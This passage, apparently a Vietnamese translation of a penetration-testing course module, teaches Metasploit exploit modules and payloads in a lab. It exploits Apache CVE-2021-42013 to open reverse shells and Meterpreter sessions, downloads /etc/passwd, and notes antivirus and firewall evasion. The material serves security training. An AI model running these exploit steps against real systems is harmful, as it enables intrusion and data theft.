----            ------          -------       ------  -------    -----  ------------  ----------
192.168.50.201  192.168.50.201  2222/tcp (ssh)  george  chocolate         Password 
```

                      *Listing 24 - Hiển thị tất cả thông tin xác thực đã được lưu của cơ sở dữ liệu*

Tuyệt! Metasploit tự động lưu các thông tin xác thực hợp lệ cho chúng ta trong cơ sở dữ liệu. Nó cũng hiển thị host liên quan, dịch vụ, và loại thông tin xác thực.

Phần này kết thúc nội dung về auxiliary module. Chúng ta đã học cách tìm kiếm module và cách thiết lập các tùy chọn của chúng để phù hợp với nhu cầu. Sau đó, chúng ta chạy hai module và khám phá cách Metasploit hiển thị và lưu trữ kết quả. Metasploit cung cấp một loạt các auxiliary module rộng lớn, bao phủ nhiều giao thức và kỹ thuật như quét cổng, fuzzing, và thực hiện tấn công mật khẩu.

---

## 1.3. Exploit Module

---

Bây giờ, khi chúng ta đã quen với cách sử dụng MSF cơ bản và cách dùng auxiliary module, hãy đi sâu hơn vào phần cốt lõi của MSF: exploit module.

Exploit module thường chứa mã khai thác (exploit code) cho các ứng dụng và dịch vụ dễ bị tổn thương. Metasploit có hơn 2200 exploit tại thời điểm tài liệu này được viết. Mỗi exploit được phát triển và kiểm thử một cách tỉ mỉ, khiến MSF có khả năng khai thác thành công một loạt rộng các dịch vụ dễ bị tổn thương. Các exploit này được gọi (invoke) theo cách gần giống như auxiliary module.

Trong ví dụ này, chúng ta sẽ tận dụng một exploit module để truy cập vào hệ thống mục tiêu WEB18. Giả sử chúng ta đã xác định hệ thống đang chạy Apache1 2.4.49 web server và dễ bị tấn công bởi CVE-2021-420132 thông qua một lần quét lỗ hổng. Chúng ta sẽ cố gắng sử dụng Metasploit và các exploit module của nó để khai thác lỗ hổng này và giành quyền thực thi mã.

Hãy tạo một workspace mới cho phần này và tìm kiếm các module trong Metasploit liên quan đến “Apache 2.4.49”.

```
msf6 auxiliary(scanner/ssh/ssh_login) > workspace -a exploits
[*] Added workspace: exploit
[*] Workspace: exploit

msf6 auxiliary(scanner/ssh/ssh_login) > search Apache 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner
```

                           *Listing 25 - Tạo workspace mới và tìm kiếm các module Apache 2.4.49*

Listing 25 cho thấy tìm kiếm của chúng ta trả về hai module khớp. Chỉ số 1 tham chiếu tới một auxiliary module dùng để kiểm tra một hoặc nhiều hệ thống mục tiêu có dễ bị tổn thương bởi lỗ hổng đã nêu hay không. Chỉ số 0 tham chiếu tới exploit module tương ứng.

Hãy dùng exploit module và nhập info để xem lại mô tả của nó.

```
msf6 auxiliary(scanner/ssh/ssh_login) > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > info

       Name: Apache 2.4.49/2.4.50 Traversal RCE
     Module: exploit/multi/http/apache_normalize_path_rce
   Platform: Unix, Linux
       Arch: cmd, x64, x86
...
Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Unix Command (In-Memory)

Check supported:
  Yes
...

Description:
  This module exploit an unauthenticated RCE vulnerability which 
  exists in Apache version 2.4.49 (CVE-2021-41773). If files outside 
  of the document root are not protected by ‘require all denied’ 
  and CGI has been explicitly enabled, it can be used to execute 
  arbitrary commands (Remote Command Execution). This vulnerability 
  has been reintroduced in Apache 2.4.50 fix (CVE-2021-42013).
...
```

                                *Listing 26 - Kích hoạt exploit module và hiển thị thông tin của nó*

Output chứa một số mảnh thông tin quan trọng trong ngữ cảnh của exploit module này. Trước khi chúng ta mù quáng đặt mục tiêu và chạy một exploit module, chúng ta luôn phải hiểu module đang làm gì bằng cách xem thông tin của module. Output bắt đầu với thông tin tổng quan về exploit như tên, nền tảng, và kiến trúc.

Output cũng chứa thông tin về các tác dụng phụ tiềm tàng khi chạy exploit module này, chẳng hạn như các Indicators of compromise xuất hiện trong các giải pháp log, và, trong ví dụ này, các artifact trên đĩa. Điều này cùng với độ ổn định (stability) của module giúp chúng ta dự đoán liệu chúng ta có thể làm crash hệ thống mục tiêu hay không hoặc những thông tin nào mà phía phòng thủ có thể thu được từ chúng ta khi sử dụng exploit module này.

Độ tin cậy (reliability) của module quyết định liệu chúng ta có thể chạy exploit nhiều hơn một lần hay không. Trong ví dụ của chúng ta, output ghi repeatable-session. Điều này quan trọng vì một số exploit module chỉ hoạt động một lần.

Phần Available targets của output thường chứa các đặc tả mục tiêu khác nhau cho các mục tiêu dễ bị tổn thương bởi exploit module. Thường thì các target này trải dài từ các hệ điều hành và phiên bản ứng dụng khác nhau đến các phương thức thực thi lệnh. Hầu hết các module cung cấp target Automatic, trong đó Metasploit cố gắng tự nhận diện, hoặc sử dụng thao tác mặc định được module chỉ định.

Check supported quyết định liệu chúng ta có thể dùng lệnh check để chạy thử (dry-run) exploit module và xác nhận mục tiêu có dễ bị tổn thương trước khi thực sự khai thác hay không.

Description cung cấp một giải thích dạng văn bản về mục đích của module. Dựa theo output của phần mô tả, có vẻ đây là module phù hợp với lỗ hổng được xác định bởi lần quét lỗ hổng giả định.

Bây giờ, khi chúng ta đã hiểu exploit module làm gì và các hệ quả của việc thực thi nó, chúng ta có thể hiển thị các tùy chọn của nó.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show options

Module options (exploit/multi/http/apache_normalize_path_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CVE        CVE-2021-42013   yes       The vulnerability to use (Accepted: CVE-2021-41773, CVE-2021-42013)
   DEPTH      5                yes       Depth for Path Traversal
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /cgi-bin         yes       Base path
   VHOST                       no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```

                                        *Listing 27 - Hiển thị các tùy chọn của exploit module*

Các tùy chọn trong Listing 27 tương tự các tùy chọn có sẵn cho auxiliary module ở phần trước. Tuy nhiên, đối với exploit module, có thêm một phần tùy chọn tên là Payload options. Nếu chúng ta không thiết lập, module sẽ chọn một payload mặc định. Payload mặc định có thể không phải thứ chúng ta muốn hoặc mong đợi, vì vậy luôn tốt hơn khi thiết lập các tùy chọn một cách tường minh để duy trì kiểm soát chặt chẽ quá trình khai thác.

Chúng ta sẽ đề cập các payload khác nhau trong Learning Unit tiếp theo, nhưng hiện tại chúng ta đặt nó thành một TCP reverse shell thông thường. Chúng ta có thể chọn payload bằng set payload và tên payload, trong trường hợp của chúng ta là `payload/linux/x64/shell_reverse_tcp`. Ngoài ra, chúng ta nhập địa chỉ IP của máy Kali cho LHOST.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload payload/linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```

                                              *Listing 28 - Thiết lập payload của exploit module*

Output cho thấy payload đã nhập hiện đang hoạt động cho exploit module. Có hai tùy chọn cho payload này là LHOST (địa chỉ IP host cục bộ hoặc interface) và LPORT (cổng cục bộ), được dùng để reverse shell kết nối về.

Theo mặc định, hầu hết exploit module dùng cổng 4444 trong tùy chọn payload LPORT. Tùy cấu hình máy của chúng ta, Metasploit có thể đã tự đặt sẵn giá trị LHOST cho chúng ta. Chúng ta luôn phải kiểm tra lại giá trị này, đặc biệt nếu máy có nhiều interface, vì Metasploit có thể tham chiếu nhầm interface khi đặt giá trị này.

*Trong các bài penetration test thực tế, chúng ta có thể gặp tình huống cổng 4444 bị chặn bởi firewall hoặc các công nghệ bảo mật khác. Điều này khá phổ biến vì đây là cổng mặc định cho các module của Metasploit. Trong các tình huống như vậy, thay đổi số cổng sang các cổng gắn với các giao thức được dùng phổ biến hơn như HTTP hoặc HTTPS có thể dẫn tới việc thực thi payload đã chọn thành công.*

Chúng ta cần lưu ý rằng chúng ta không cần khởi động listener thủ công bằng các công cụ như Netcat để nhận reverse shell đi vào. Metasploit tự động thiết lập một listener khớp với payload đã chỉ định.

Bây giờ, hãy đặt tùy chọn SSL thành false và RPORT thành 80 vì Apache web server mục tiêu chạy trên cổng 80 không có HTTPS. Sau đó, chúng ta đặt RHOSTS thành IP mục tiêu và nhập run.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
SSL => false

msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
RPORT => 80

msf6 exploit(multi/http/apache_normalize_path_rce) > set RHOSTS 192.168.50.16
RHOSTS => 192.168.50.16

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.2:4444
[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell_reverse_tcp command payload
[*] Command shell session 2 opened (192.168.119.4:4444 -> 192.168.50.16:35534) at 2022-08-08 05:13:45 -0400
[!] This exploit may require manual cleanup of '/tmp/ruGC' on the target

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

                                                          *Listing 29 - Chạy exploit module*

Khi được chạy, exploit module trước hết khởi động một listener trên cổng 4444 và dùng auxiliary module đã được trình bày trước đó để kiểm tra xem mục tiêu có thật sự dễ bị tổn thương hay không. Trong trường hợp của chúng ta, nó dễ bị tổn thương như được hiển thị trong Listing 29. Sau đó, lỗ hổng được khai thác và payload được gửi đi. Console cho biết một session đã được mở, và chúng ta đã giành được quyền thực thi lệnh.

Trước khi chuyển sang phần tiếp theo, hãy khám phá khái niệm sessions và jobs trong Metasploit. Session được dùng để tương tác và quản lý quyền truy cập vào các mục tiêu đã bị khai thác thành công, trong khi job được dùng để chạy module hoặc các tính năng ở chế độ nền.

Khi chúng ta chạy exploit bằng run, một session được tạo và chúng ta có một shell tương tác. Chúng ta có thể đưa session xuống nền bằng cách nhấn Ctrl+z và xác nhận lời nhắc. Khi session đã được đưa xuống nền, chúng ta có thể dùng sessions -l để liệt kê tất cả session đang hoạt động.

```
^Z
Background session 2? [y/N]  y

msf6 exploit(multi/http/apache_normalize_path_rce) > sessions -l

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  ...
  2         shell x64/linux               192.168.119.4:4444 -> 192.168.50.16:35534 (192.168.50.16)
```

                     *Listing 30 - Đưa session xuống nền và liệt kê tất cả session đang hoạt động*

Output cung cấp cho chúng ta thông tin về mục tiêu và payload đang dùng. Điều này giúp chúng ta dễ dàng xác định session nào đang quản lý quyền truy cập tới mục tiêu nào.

Chúng ta có thể tương tác lại với session bằng cách truyền session ID cho sessions -i.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > sessions -i 2
[*] Starting interaction with 2...

uname -a
Linux c1dbace7bab7 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

                             *Listing 31 - Tương tác với session đã được đưa xuống nền trước đó*

Listing 31 cho thấy chúng ta có thể nhập lệnh trở lại trong shell tương tác. Chúng ta có thể kết thúc một session bằng sessions -k và ID làm đối số.

Thay vì chạy một exploit module rồi đưa session kết quả xuống nền, chúng ta có thể dùng run -j để chạy nó trong ngữ cảnh của một job. Theo cách này, chúng ta vẫn thấy output của việc chạy exploit module, nhưng chúng ta sẽ cần tương tác với session được tạo ra trước khi có thể truy cập vào nó.

Hãy tạm lùi lại một chút và thảo luận vì sao làm việc với session và job là thiết yếu trong một bài penetration test thực tế. Trong một lần đánh giá, chúng ta sẽ đối mặt với nhiều mục tiêu và rất dễ mất dấu những máy mà chúng ta đã có quyền truy cập. Việc sử dụng một exploit framework như Metasploit giúp chúng ta quản lý quyền truy cập vào các máy này.

Nếu chúng ta muốn thực thi lệnh trên một hệ thống cụ thể, chúng ta không phải lục lại các terminal khác nhau để tìm đúng Netcat listener, chúng ta chỉ cần tương tác với session tương ứng. Chúng ta có thể chạy exploit module bằng run -j ở chế độ nền và Metasploit sẽ tự động tạo một session cho chúng ta trong khi chúng ta đang làm việc với mục tiêu tiếp theo.

Ngoài ra, Metasploit còn lưu trữ thông tin về mục tiêu, kết quả module, và lỗ hổng trong cơ sở dữ liệu, những thứ vô cùng giá trị cho các bước tiếp theo trong bài penetration test và cho việc viết báo cáo cho khách hàng.

Việc dùng exploit module trong Metasploit là một quá trình thẳng thắn. Như chúng ta đã học trong các Module Locating Public Exploits và Fixing Exploits, làm việc với public exploit có thể cần rất nhiều chỉnh sửa để chạy được. Điều này khác hẳn với exploit module trong Metasploit. Khi chúng ta tìm được đúng exploit module, hiểu các hệ quả của nó, và thiết lập các tùy chọn, chúng ta có thể chạy exploit. Metasploit cũng thiết lập đúng listener để cung cấp quyền truy cập shell tương tác cho chúng ta, phụ thuộc vào payload mà chúng ta đã đặt.

Payload quyết định điều gì xảy ra trên hệ thống sau khi một lỗ hổng được khai thác. Trong ví dụ của phần này, chúng ta đã chọn một TCP reverse shell Linux 64-bit phổ biến. Tuy nhiên, Metasploit có nhiều payload khác nhau. Tùy theo nhu cầu, chúng ta cần hiểu phải đặt payload nào và cách cấu hình nó. Trong Learning Unit tiếp theo, chúng ta sẽ khám phá các loại payload quan trọng nhất mà Metasploit cung cấp.

---

# 2. Sử dụng Metasploit Payload

---

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu sự khác biệt giữa staged payload và non-staged payload
- Khám phá payload Meterpreter
- Tạo payload dạng file thực thi

Trong Learning Unit trước, chúng ta đã sử dụng `linux/x64/shell_reverse_tcp` làm payload cho một exploit module. Metasploit chứa rất nhiều payload khác, nhắm tới các hệ điều hành và kiến trúc khác nhau. Ngoài ra, Metasploit còn bao gồm nhiều loại payload khác vượt ra ngoài các shell cơ bản, thực hiện các thao tác khác nhau trên hệ thống mục tiêu. Hơn nữa, framework này cũng có khả năng tạo ra nhiều loại file khác nhau chứa payload để thực hiện các thao tác nhất định, chẳng hạn như khởi động một reverse shell. Trong Learning Unit này, chúng ta sẽ thảo luận về staged payload và non-staged payload, khám phá một loại payload đặc biệt có tên là Meterpreter, và tìm hiểu các file thực thi chứa payload.

---

## **2.1. Staged và Non-Staged Payloads**

---

Trong phần này, chúng ta sẽ khám phá sự khác biệt giữa staged payload và non-staged payload. Giả sử chúng ta đã xác định được một lỗ hổng buffer overflow trong một dịch vụ. Như đã học trong Fixing Exploits, chúng ta cần nhận thức được kích thước buffer mà shellcode của chúng ta sẽ được lưu vào. Nếu kích thước shellcode của exploit vượt quá kích thước buffer, nỗ lực khai thác của chúng ta sẽ thất bại. Trong một tình huống như vậy, việc lựa chọn loại payload nào là rất quan trọng: staged hay non-staged.

Sự khác biệt giữa hai loại payload này là tinh tế nhưng quan trọng. Một non-staged payload được gửi toàn bộ cùng với exploit. Điều này có nghĩa là payload chứa exploit và toàn bộ shellcode cho tác vụ đã chọn. Nhìn chung, các payload “all-in-one” này ổn định hơn. Nhược điểm là kích thước của các payload này sẽ lớn hơn so với các loại khác.

Ngược lại, một staged payload thường được gửi theo hai phần. Phần đầu tiên chứa một payload chính nhỏ, khiến máy nạn nhân kết nối ngược lại với kẻ tấn công, tải về một payload thứ cấp lớn hơn chứa phần còn lại của shellcode, và sau đó thực thi nó.

Có một số tình huống mà chúng ta sẽ ưu tiên sử dụng staged payload thay vì non-staged. Nếu exploit có giới hạn về không gian, staged payload có thể là lựa chọn tốt hơn vì nó thường nhỏ hơn. Ngoài ra, chúng ta cần lưu ý rằng phần mềm antivirus có thể phát hiện shellcode trong một exploit. Bằng cách thay thế toàn bộ mã bằng một stage đầu tiên, stage này sẽ tải phần shellcode thứ hai và độc hại, payload còn lại sẽ được lấy về và chèn trực tiếp vào bộ nhớ của máy nạn nhân. Điều này có thể ngăn chặn việc bị phát hiện và làm tăng khả năng thành công của chúng ta.

Bây giờ, khi đã có hiểu biết cơ bản về hai loại payload này, hãy bắt tay vào thực hành. Để làm điều này, chúng ta sẽ sử dụng cùng exploit module như trong phần trước và nhập show payloads để lấy danh sách tất cả payload tương thích với exploit module hiện đang được chọn.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads
Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
...
   15  payload/linux/x64/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
...
   20  payload/linux/x64/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
...
```

                                *Listing 32 - Hiển thị các payload tương thích của exploit module*

Listing 32 cho chúng ta thấy payload mà chúng ta đã sử dụng trước đó ở chỉ số 20. Trong Metasploit, ký tự “/” được dùng để biểu thị liệu một payload có phải là staged hay không, do đó `shell_reverse_tcp` ở chỉ số 20 là non-staged, trong khi `shell/reverse_tcp` ở chỉ số 15 là staged.

Hãy sử dụng staged payload cho exploit module này và chạy nó. Chúng ta cần lưu ý rằng Metasploit sẽ tái sử dụng các giá trị của các tùy chọn từ payload trước đó.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 15
payload => linux/x64/shell/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell/reverse_tcp command payload
[*] Sending stage (38 bytes) to 192.168.50.16
[!] Tried to delete /tmp/EqDPZD, unknown result
[*] Command shell session 3 opened (192.168.119.4:4444 -> 192.168.50.16:35536) at 2022-08-08 05:18:36 -0400

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

                   *Listing 33 - Sử dụng staged TCP reverse shell payload và chạy exploit module*

Listing 33 cho thấy chúng ta đã giành được reverse shell thành công bằng cách sử dụng staged payload. Output cho biết stage được gửi đi chỉ có kích thước 38 byte, khiến nó trở thành một lựa chọn rất phù hợp khi chúng ta cố gắng khai thác một lỗ hổng có giới hạn về không gian.

Việc giành được reverse shell bằng staged payload kết thúc phần này. Chúng ta đã thảo luận sự khác biệt giữa staged và non-staged payload và sử dụng staged payload để chạy một exploit module.

Trong các ví dụ cho đến nay, chỉ có những khác biệt nhỏ giữa staged và non-staged payload vì Metasploit đã thực hiện phần lớn công việc ở hậu trường cho chúng ta. Trong cả hai trường hợp, chúng ta đều nhận được một session trên máy mục tiêu. Ở phần cuối của Learning Unit này, chúng ta sẽ thiết lập listener thủ công và xem xét kỹ hơn sự khác biệt giữa hai loại payload này.

---

## **2.2. Meterpreter Payload**

---

Trong các phần trước, chúng ta đã sử dụng một TCP reverse shell phổ biến. Mặc dù chúng ta có quyền truy cập tương tác (interactive access) tới hệ thống mục tiêu với loại payload này, chúng ta chỉ có chức năng của một command shell thông thường. Các exploit framework thường chứa các payload nâng cao hơn, cung cấp các tính năng và chức năng như truyền file, pivoting, và nhiều phương thức khác để tương tác với máy nạn nhân.

Metasploit chứa payload Meterpreter, đây là một payload đa chức năng có thể được mở rộng động tại thời điểm chạy (run-time). Payload này tồn tại hoàn toàn trong bộ nhớ trên máy mục tiêu và giao tiếp của nó được mã hóa theo mặc định. Meterpreter cung cấp các khả năng đặc biệt hữu ích trong giai đoạn post-exploitation và tồn tại cho nhiều hệ điều hành khác nhau, như Windows, Linux, macOS, Android, và nhiều hệ khác.

Hãy hiển thị lại tất cả payload tương thích trong exploit module từ các phần trước và tìm kiếm các Meterpreter payload. Khi chúng ta tìm được một non-staged 64-bit Meterpreter TCP reverse shell payload, chúng ta sẽ kích hoạt nó và hiển thị các tùy chọn của nó.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   7   payload/linux/x64/meterpreter/bind_tcp                             normal  No     Linux Mettle x64, Bind TCP Stager
   8   payload/linux/x64/meterpreter/reverse_tcp                          normal  No     Linux Mettle x64, Reverse TCP Stager
   9   payload/linux/x64/meterpreter_reverse_http                         normal  No     Linux Meterpreter, Reverse HTTP Inline
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   11  payload/linux/x64/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline
   ...

msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 11
payload => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```

*Listing 34 - Xem lại các Meterpreter payload tương thích của exploit module và dùng meterpreter_reverse_tcp 64bit*

Listing 34 cho thấy có nhiều Meterpreter payload tương thích với exploit module hiện đang được kích hoạt.

Tại thời điểm này, chúng ta nên lưu ý rằng tất cả Meterpreter payload đều là staged. Tuy nhiên, output của show payloads chứa cả staged và non-staged payload. Sự khác biệt giữa hai loại này là cách Meterpreter payload được truyền tới máy mục tiêu. Phiên bản non-staged bao gồm tất cả các thành phần cần thiết để khởi chạy một Meterpreter session trong khi phiên bản staged sử dụng một first stage riêng để tải các thành phần này. Việc tải các thành phần này qua mạng tạo ra khá nhiều lưu lượng và có thể cảnh báo các cơ chế phòng thủ. Trong các tình huống mà băng thông của chúng ta bị hạn chế hoặc chúng ta muốn dùng cùng payload để compromise nhiều hệ thống trong một lần đánh giá, một non-staged Meterpreter payload trở nên rất hữu ích. Trong phần còn lại của Module, chúng ta sẽ dùng phiên bản non-staged bất cứ khi nào chúng ta dùng một Meterpreter payload.

Sau khi chọn phiên bản 64-bit non-staged của `meterpreter_reverse_tcp` làm payload, chúng ta có thể xem lại các tùy chọn của nó. Với payload cụ thể này, các tùy chọn tương tự như những tùy chọn cho các payload trước đó mà chúng ta đã dùng.

Bây giờ, hãy chạy exploit module với Meterpreter payload của chúng ta. Khi chúng ta nhận được một Meterpreter command prompt, chúng ta sẽ hiển thị các lệnh có sẵn bằng cách nhập help.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_tcp command payload
[*] Meterpreter session 4 opened (192.168.119.4:4444 -> 192.168.50.16:35538) at 2022-08-08 05:20:20 -0400
[!] This exploit may require manual cleanup of '/tmp/GfRglhc' on the target

meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    ...
    channel                   Displays information or control active channels
    close                     Closes a channel
    ...
    info                      Displays information about a Post module
    ...
    load                      Load one or more meterpreter extensions
    ...
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    ...

...

Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS
```

                             *Listing 35 - Hiển thị các payload tương thích của exploit module*

Vài khoảnh khắc sau khi exploit module được chạy, chúng ta sẽ nhận được một Meterpreter command prompt như được hiển thị trong Listing 35. Các lệnh của Meterpreter được chia thành các danh mục như System Commands, Networking Commands, và File system Commands.

Hãy làm quen với một số lệnh Meterpreter. Chúng ta sẽ bắt đầu thu thập thông tin bằng cách nhập sysinfo và getuid.

```
meterpreter > sysinfo
Computer     : 172.29.0.2
OS           : Ubuntu 20.04 (Linux 5.4.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

meterpreter > getuid
Server username: daemon
```

                              *Listing 36 - Hiển thị các payload tương thích của exploit module*

Các lệnh này cung cấp cho chúng ta thông tin về máy mục tiêu, hệ điều hành, và user hiện tại.

Như chúng ta đã học, Metasploit sử dụng session để quản lý quyền truy cập tới các máy khác nhau. Khi Metasploit tương tác với một hệ thống trong một session, nó dùng một khái niệm có tên là channel. Hãy bắt đầu một interactive shell bằng cách nhập shell, thực thi một lệnh trong ngữ cảnh của một channel, và đưa channel mà shell đang chạy xuống nền. Để đưa một channel xuống nền, chúng ta có thể dùng Ctrl+z.

```
meterpreter > shell
Process 194 created.
Channel 1 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 1? [y/N]  y

meterpreter > 
```

                                        *Listing 37 - Khởi tạo một channel và đưa nó xuống nền*

Tiếp theo, chúng ta sẽ khởi tạo một interactive shell thứ hai, thực thi một lệnh, và đưa channel xuống nền.

```
meterpreter > shell
Process 196 created.
Channel 2 created.
whoami
daemon
^Z
Background channel 2? [y/N]  y
```

                                        *Listing 38 - Khởi tạo channel thứ hai và đưa nó xuống nền*

Bây giờ, hãy liệt kê tất cả các channel đang hoạt động và tương tác lại với channel 1. Để liệt kê tất cả channel đang hoạt động, chúng ta có thể nhập channel -l và để tương tác với một channel, chúng ta có thể dùng channel -i và channel ID làm đối số.

```
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process

meterpreter > channel -i 1
Interacting with channel 1...

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

                      *Listing 39 - Liệt kê tất cả channel đang hoạt động và tương tác với channel 1*

Listing 39 cho thấy chúng ta có thể thực thi lệnh trong ngữ cảnh của channel 1 một lần nữa. Việc sử dụng channel sẽ giúp chúng ta rất nhiều trong việc quản lý quyền truy cập hệ thống và thực hiện các thao tác post-exploitation.

Tiếp theo, hãy dùng các lệnh download và upload trong danh mục File system Commands để chuyển file tới và từ hệ thống. Để làm điều này, trước hết hãy xem lại các lệnh của danh mục này.

```
meterpreter > help
...
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory
...   
```

                             *Listing 40 - Liệt kê tất cả File system Commands của Meterpreter*

Listing 40 cho chúng ta thấy nhiều lệnh mà chúng ta có thể sử dụng để upload, download, hoặc quản lý file trên hệ thống cục bộ và hệ thống mục tiêu. Các lệnh có tiền tố “l” thao tác trên hệ thống cục bộ; trong trường hợp của chúng ta là máy ảo Kali. Ví dụ, chúng ta có thể dùng các lệnh này để thay đổi thư mục tới nơi chúng ta muốn tải xuống hoặc tải lên file.

Hãy tải `/etc/passwd` từ máy mục tiêu về hệ thống Kali của chúng ta. Để làm điều này, trước tiên chúng ta sẽ đổi thư mục cục bộ trên máy Kali sang `/home/kali/Downloads`. Sau đó, chúng ta sẽ nhập lệnh `download` và `/etc/passwd` làm đối số.

```
meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
...
```

                       *Listing 41 - Thay đổi thư mục cục bộ và tải /etc/passwd từ máy mục tiêu*

Listing 41 cho thấy chúng ta đã tải /etc/passwd về máy cục bộ thành công.

Tiếp theo, giả sử chúng ta muốn chạy `unix-privesc-check` như trong một Module trước để tìm các vector leo thang đặc quyền tiềm năng. Hãy upload file này lên /tmp trên hệ thống mục tiêu.

```
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] uploading  : /usr/bin/unix-privesc-check -> /tmp/
